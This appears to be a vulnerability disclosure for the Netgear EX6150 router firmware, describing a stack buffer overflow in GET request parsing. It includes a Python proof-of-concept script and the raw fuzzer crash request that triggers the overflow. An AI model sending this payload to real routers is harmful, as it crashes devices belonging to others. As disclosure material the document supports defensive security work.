



# Overview
Details of the vulnerability found in the netgear router ex6150.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| ex6150    | V1.0.0.46_1.0.76    | https://www.downloads.netgear.com/files/GDC/EX6150/EX6150-V1.0.0.46_1.0.76.zip   |


# Vulnerability details
## 1. Vulnerability trigger Location
A stack-based buffer overflow vulnerability exists in the function sub_410090 at offset 0x00410728, where the strcat function is called without proper bounds checking. A specially crafted GET request can trigger the overflow.


## 2. Vulnerability  Analysis
- The vulnerability is triggered during the parsing of a user's GET request when the request header contains `GET /mtd`.

- Since the program uses memset(&v22[6], 0, 94);, the maximum size of the v22 buffer is effectively limited to 100 bytes. Therefore, if the data following the GET request exceeds this limit, a stack-based buffer overflow can occur.


# POC
## python script
```python
import socket

host = "172.17.0.170"
port = 80
file = "../crashes/id0"
f = open(file, "rb")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

request = f.read()

s.send(request)

response = s.recv(4096)

print(response.decode())

s.close()
```
## id0

**Note the use of CRLF (Carriage Return and Line Feed) for line breaks.**
```
GET /mtdnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnGGGGGGGGGGAccept-Language:GGGGGGGGGGGGGGGGGGZGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGfGGGGGGGGGGGGGGGGGGGGGGGG\GGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGG$GGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGG"


```

# Vulnerability Verification Screenshot
##  ex6150


# Discoverer
m202472188@hust.edu.cn.
